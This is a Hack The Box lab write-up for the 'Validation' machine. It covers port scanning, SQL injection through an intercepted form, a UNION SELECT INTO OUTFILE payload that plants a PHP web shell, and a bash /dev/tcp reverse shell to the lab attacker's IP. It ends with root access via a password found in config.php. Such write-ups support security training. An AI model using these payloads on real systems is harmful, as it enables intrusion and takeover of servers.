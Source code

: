 ```yaml
---
title:  "Writeup of Validation machine of Hack The Box"
date: 2023-04-16
mathjax: true
layout: post
categories: writeup
tags: sql-injection burpsuite php web-shell
---
```


# Resolution of Validation machine of Hack The Box

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/validation.webp)

### 💉 *"Machine vulnerable to SQL Injection !!"*

**As always, we first check that we have a connection to the victim machine, from our attacking machine. One way to do this is by sending ICMP packets with the "ping" command:**

```bash
ping -c 1 10.10.11.116
```

**We now know that we have a connection to the machine since it responded with the packets we received**.

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/ping.webp)

First we do an Active scan of the machine in search of open ports with the following command

```bash
sudo nmap 10.10.11.116 -p- --min-rate 5000 -sS -Pn -oG openPorts -vvv 
```

With the above command we export the result in a format in which we can extract the open ports with the help of commands such as *"grep, awk and others "* and then scan in depth:

```bash
sudo nmap 10.10.11.116 -p22,80,4566,8080 -sV -sC -sS -Pn -oN scanComplete -vvv
```

#### Now with the complete scan we obtain the following result:

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/nmap.webp)

As port 80 is open running the http service, we enter in the web browser the IP address of the machine through that port:

*But before continuing with the pentesting of this machine, we add as host "validation.htb" with the IP of the machine (10.10.11.116)*.

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/etc-hosts.webp)

**We see that we have a simple form, written in HTML with an input that allows us to choose our "Username" as well as the region, which defaults to "Brazil". If we inspect the source code we can see that the <form> i.e. the form, sends the values of the "Username" and the "Region" to the web server. With this we can think that these values are hosted in a Database:**.

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/form-html.webp)

## Burp Suite

**Now we configure the FoxyProxy extension in Firefox to redirect the request through our localhost on port 8080 (127.0.0.1:8080). This way we intercept it with Burp Suite and from there follow:**

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/burp-suite.webp)

**Now from Burp Suite, we comment the value of the “country” field and inject the code:**

```
or 1=1
```

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/sqli-nourl.webp)

Then we encode it with URL encoding:

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/sqli-url.webp)

Now if we go back to the web part, we see that the Backend Error is leaked, which makes us think that it is vulnerable to SQL Injection:

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/sqli-vulnerable.webp)

## Once the vulnerability has been found, we create a Backdoor.

As we can see on the site, the web application uses PHP. We can try to inject a web-shell in PHP through a SQL Injection attack:

*The code we are going to use to add a web-shell with an SQL Injection will be:*

```sql
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

*With the previous code we tell the server to also select that fraction of code, (which is the Backdoor), and insert it in the file /var/www/html/shell.php. That is to say that shell.php will be our web-shell in PHP. It is also good to know that normally the web servers that are executed in Linux (these are the majority at the moment, although not all), have as root of web directories the route /var/www/html*.

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/backdoor.webp)

## Works!!

We have our web-shell ready in the path /shell.php, now to execute a command in the server we only have to add the following query:

```
shell.php?cmd={comando}
```

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/web-shell.webp)

Now we go to [https://www.revshells.com/](https://www.revshells.com/) and generate a payload to execute a Reverse Shell with Netcat and to be able to connect to the server from an interactive console. We execute it as a command in the Backdoor of "shell.php".

After trying several types of shells, it worked for me to add it:

```bash
bash -c '{payload de la shell}'
```

Which would look like this:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.2/4545 0>&1'
```

We encode it as a URL and execute the code in the web-shell, from the browser or from Burp Suite.

**We see in the "config.php" file a password **.

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/config-php.webp)

**As we are Pentesters, we have to test all the ways in which the system could be accessed in a privileged way, so we try to use that password to authenticate as root user:** 

## YES! It seems that this is the root password.

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/validation.htb/flag-root.webp)

### And with this we finish the machine and we have full access to the system.

Happy Hacking!!

----

## Author: Mateo Fumis 
